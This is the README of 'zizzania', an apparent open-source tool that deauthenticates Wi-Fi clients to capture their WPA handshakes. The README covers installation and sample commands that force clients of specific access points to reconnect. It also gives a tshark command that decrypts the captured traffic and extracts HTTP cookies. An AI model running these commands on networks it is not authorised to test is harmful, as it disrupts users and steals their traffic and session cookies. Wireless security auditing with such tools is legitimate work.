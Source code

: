 zizzania - Automatic DeAuth attack
==================================

zizzania reads packets from a pcap file or from a wireless device (RFMON mode)
and recognizes the WPA 4-way handshakes of the clients. Captured traffic can be
saved to a pcap file that will contain, for each client, the handshake followed
by its data (IEEE 802.11 unicast data frames only): ready for subsequent
decryption. When capturing from a device, zizzania keeps on deauthenticating the
clients it finds until their handshakes are not gathered.

Dependencies
------------

    libpcap-dev (>= 1.1.1)
    libglib2.0-dev (>= 2.24.2)

Install
-------

    make
    sudo make install

Uninstall
---------

    sudo make uninstall

Sample usage
------------

Take a look around:

    sudo zizzania -i wlan0 -n -a

Passively wait for handshakes of a specific AP and dump decryptable traffic to a
file:

    sudo zizzania -i wlan0 -n -b 11:22:33:44:55:66 -w passive.cap

Force the reconnection of the clients of two specific APs and dump the
decryptable traffic to a gzipped file:

    sudo zizzania -i wlan0 \
                  -b 11:22:33:44:55:66 \
                  -b aa:bb:cc:dd:ee:ff -w - | gzip > active.cap.gz

Extract the decryptable traffic of a specific AP from a gzipped file and dump it
to a file:

    gunzip < file.cap.gz | zizzania -r - -b 11:22:33:44:55:66 -w crop.cap

Use tshark to parse an encrypted file (SSID: bar, password: foo) generated by
zizzania looking for HTTP cookies:

    tshark -o wlan.enable_decryption:TRUE \
           -o wlan.wep_key1:wpa-pwd:foo:bar \
           -r file.cap -R 'http.cookie' \
           -T fields -e http.host -e http.cookie
